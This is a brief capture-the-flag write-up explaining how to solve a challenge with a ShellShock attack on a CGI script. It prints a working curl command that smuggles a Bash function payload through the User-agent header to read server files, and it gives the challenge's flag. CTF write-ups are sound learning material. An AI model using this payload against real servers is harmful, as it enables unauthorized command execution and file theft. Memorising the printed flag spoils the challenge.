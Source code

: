 # RSA
**Category:** Medium
**Points:** 400
**Solves:** 23
**Description:**

>We have been given access to a script snippet that is vurlnerable. Can you exploit it and find the flag?
>
>Flag is in format: CT##-####-#####-####
>
>You can access the site from [here](http://ctfp.ee:11111/unsafe.cgi)

# Write-up
by BubblyPen

In this challange you have to get the flag via ShellShock.

Searching for *bash cgi vulns*, you can find a lot of ShellShock exploits. I found [this](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock) link very useful.

By using this command you will get the flag:

```bash
curl -H "User-agent: () { :;}; echo; /bin/cat ../j*" http://ctfp.ee:11111/unsafe.cgi
```

***Flag:*** CT20-Sh3l-lSh0c-k3d!
